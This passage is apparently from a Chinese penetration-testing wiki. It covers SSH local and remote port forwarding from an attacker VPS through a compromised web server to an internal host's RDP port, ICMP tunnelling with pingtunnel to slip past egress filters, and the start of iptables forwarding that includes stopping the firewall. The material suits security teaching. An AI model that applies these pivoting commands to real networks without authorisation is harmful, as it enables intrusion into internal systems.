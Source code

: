 ![](https://wiki.wgpsec.org/images/image-20200619231457834.png)

**本地转发**

在`VPS（黑客）`上执行以下命令

```text
ssh -CfNg -L 1153（VPS端口）:10.1.1.3（目标主机）:3389（目标端口）
root@192.168.0.3（跳板机，Web服务器，会要求输入密码）

#查看1153端口是否已经连接
netstat -tulnp | grep "1153"

#连接目标数据库服务器的远程桌面
rdesktop 127.0.0.1:1153
```

SSH进程的本地端口映射，将本地端口转发到远端指定机器的指定端口；

本地端口转发是在本地监听一个端口，所有访问这个端口的流量都会通过SSH隧道传输到远端的对应端口。

**远程转发**

 在`Web服务器`上执行如下命令

```text
ssh -CfNg -R 1122（VPS端口）:10.1.1.3（目标主机，数据库）:3389（目标端口） root@192.168.0.5(VPS的IP)
```

访问`VPS`的1122端口，即可连接内网数据库服务器的3389

```text
rdesktop 127.0.0.1:1122
```

所有访问`VPS`的1122端口的流量都会通过SSH隧道传输到数据库服务器的3389端口

### ICMP隧道 <a id="icmp&#x96A7;&#x9053;"></a>

项目地址：[https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel)

适用场景 ：特殊环境下icmp流量允许出网

实现原理：客户端将TCP流量封装成icmp，然后发送给服务端，服务端再从ICMP包解析出正常TCP流量最后发向目标

![](https://wiki.wgpsec.org/images/image-20200613145026593.png)

### iptables正向端口转发 <a id="iptables&#x6B63;&#x5411;&#x7AEF;&#x53E3;&#x8F6C;&#x53D1;"></a>

1、编辑配置文件

```text
vi /etc/sysctl.conf
	net.ipv4.ip_forward = 1#开启IP转发
```

2、关闭服务

```text
service iptables stop
```

